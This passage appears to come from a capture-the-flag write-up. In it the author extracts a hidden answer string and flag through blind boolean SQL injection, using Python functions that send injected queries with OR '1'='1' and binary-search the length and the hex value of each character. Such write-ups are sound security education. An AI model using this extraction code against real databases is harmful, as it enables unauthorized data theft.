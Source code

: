 ```
def guess_greater_than_or_equal_to_string_length(guess, arg1=None, debug=False):
	query = "42' OR '1'='1' AND " + str(guess) + " >= length(answer);--"
	result = submit_query(query)
	if debug:
		print("Submitting query: " + str(query) + "\n")
		print("Result = " + str(result))
	return(result)

def get_answer_length():
  	answer_length = binary_search(0, 128, guess_greater_than_or_equal_to_string_length)
  	return(answer_length)
```

And I could determine the value of a specific ASCII character in the string stored in the `answers` table:

```
# Now I just need a true / false function that tests a letter.
def guess_greater_than_or_equal_to_hex_value(guess, index, debug=False):
	query = "42' OR '1'='1' AND '" + str.upper(hex(guess)[2:4]) + "' >= HEX(substr(answer," +str(index) + ",1));--"
	result = submit_query(query)
	if debug:
		print("guess = " + str(guess))
		print("Submitting query: " + str(query) + "\n")
		print("Result = " + str(result))
	return(result)

def extract_letter(index, debug=False):
  hex_letter = str(binary_search(30, 122, guess_greater_than_or_equal_to_hex_value, i))
  if debug:
  	print("hex_letter = " + hex_letter)
  return(chr(int(hex_letter,10)))
```

That was enough to get the `answer` string from the database and then the flag:

```
answer_length = get_answer_length()
print("Answer length = " + str(answer_length)) # 14, correct!
answer = ''
for i in range(1,answer_length+1):
	answer += extract_letter(i)
	print("ANSWER: " + str(answer))

print("The answer is " + answer)
#41AndSixSixths

print(submit_query("41AndSixSixths", debug=True))
```
![./manual_flag.png](./manual_flag.png)
